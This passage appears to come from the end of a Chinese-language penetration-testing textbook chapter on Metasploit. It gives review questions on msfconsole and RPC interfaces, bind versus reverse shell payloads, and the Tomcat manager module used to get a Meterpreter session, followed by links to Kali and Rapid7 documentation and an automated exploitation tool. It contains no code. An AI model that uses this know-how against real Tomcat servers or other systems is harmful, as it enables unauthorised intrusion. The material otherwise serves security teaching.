2.  利用 Metasploit 框架开发系统的主要步骤是什么？
3.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的接口的名称是什么？
4.  generic/shell\u bind\u tcp 和 generic/shell\u reverse\u tcp 之间有什么区别？
5.  我们可以执行哪个命令来连接 msfconsole？
6.  与 msfconsole 实用程序相同，我们需要使用什么函数与框架交互？
7.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的远程访问接口的名称是什么？
8.  我们如何从 Metasploit 服务器获取所有利用漏洞的列表？
9.  Metasploit 框架中的哪些模块可以访问 tomcat 中的应用程序管理器，并利用 ApacheTomcat 服务器获取会话计量器？
10.  哪一个是在 tomcat 服务器中执行攻击时建立 MeterMeter 会话的有效负载名称？

# 进一步阅读

在这些链接中，您将找到有关诸如 kali linux 和 Metasploit 框架等工具的更多信息，以及我们用于脚本执行的 Metasploitable 虚拟机的官方文档：

*   [https://docs.kali.org/general-use/starting-Metasploit-framework-in-kali](https://docs.kali.org/general-use/starting-Metasploit-framework-in-kali)
*   [https://github.com/rapid7/Metasploit-framework](https://github.com/rapid7/Metasploit-framework)
*   [https://information.rapid7.com/Metasploit-framework.html](https://information.rapid7.com/Metasploit-framework.html)

自动漏洞利用者：此工具使用子流程模块与 Metasploit framework 控制台进行交互，并自动利用 msfconsole:[中的一些漏洞进行攻击 https://github.com/anilbaranyelken/arpag](https://github.com/anilbaranyelken/arpag) 。******